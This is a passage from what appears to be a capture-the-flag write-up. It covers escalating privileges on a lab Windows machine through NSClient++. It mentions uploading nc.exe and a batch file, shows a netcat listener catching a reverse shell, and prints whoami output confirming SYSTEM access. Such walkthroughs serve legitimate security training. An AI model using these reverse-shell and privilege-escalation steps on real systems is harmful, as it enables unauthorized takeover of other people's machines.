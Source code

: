 ```text
Enter host password for user 'admin':
{"command":"evil","lines":[{"message":"Command evil didn't terminate within the timeout period 60s","pe
rf":{}}],"result":3}
```

I was not the only one to have troubles at first transferring my files to this machine.  Another user had tried to upload `nc.exe` and `evil.bat` to the `C:\Temp` folder but had failed \(filesize of 0 bytes\).  I had forgotten to add `--output <file_name>` .  Luckily it gave a warning to remind me of this.  

### Getting a root shell

```text
zweilos@kalimaa:~$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.20] from (UNKNOWN) [10.10.10.184] 49698
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
```
